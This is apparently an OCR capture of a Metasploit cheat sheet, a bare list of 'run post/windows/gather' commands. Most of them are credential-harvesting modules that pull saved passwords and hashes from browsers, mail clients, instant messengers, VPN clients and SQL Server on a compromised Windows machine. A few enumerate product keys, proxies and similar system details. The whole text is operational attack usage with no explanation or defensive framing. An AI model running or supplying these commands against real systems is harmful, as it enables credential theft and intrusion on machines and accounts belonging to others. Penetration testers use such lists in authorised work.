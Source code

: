 run post/windows/gather/credentials/ie

run post/windows/gather/enum_ms_product_keys

run post/windows/gather/credentials/imail

run post/windows/gather/enum_muicache

run post/windows/gather/credentials/imvu

run post/windows/gather/enum_onedrive

run post/windows/gather/credentials/incredimail

run post/windows/gather/credentials/kakaotalk

run post/windows/gather/credentials/kmeleon

run post/windows/gather/enum_prefetch

run post/windows/gather/credentials/viber (instant messenger)

run post/windows/gather/credentials/line (instant messenger)

run post/windows/gather/enum_proxy

run post/windows/gather/credentials/maxthon

run post/windows/gather/credentials/mcafee_vse_hashdump

run post/windows/gather/credentials/mdaemon_cred_collector

run post/windows/gather/credentials/meebo



run post/windows/gather/credentials/miranda

run post/windows/gather/enum_termserv

run post/windows/gather/credentials/mremote

run post/windows/gather/credentials/mssql_local_hashdump



run post/windows/gather/credentials/nimbuzz

run post/windows/gather/enum_trusted_locations

run post/windows/gather/credentials/opera

run post/windows/gather/credentials/operamail

run post/windows/gather/credentials/postbox

run post/windows/gather/credentials/pulse_secure

run post/windows/gather/forensics/duqu_check

run post/windows/gather/credentials/purevpn_cred_collector

run post/windows/gather/credentials/qq

run post/windows/gather/forensics/fanny_bmp_check

run post/windows/gather/credentials/razer_synapse
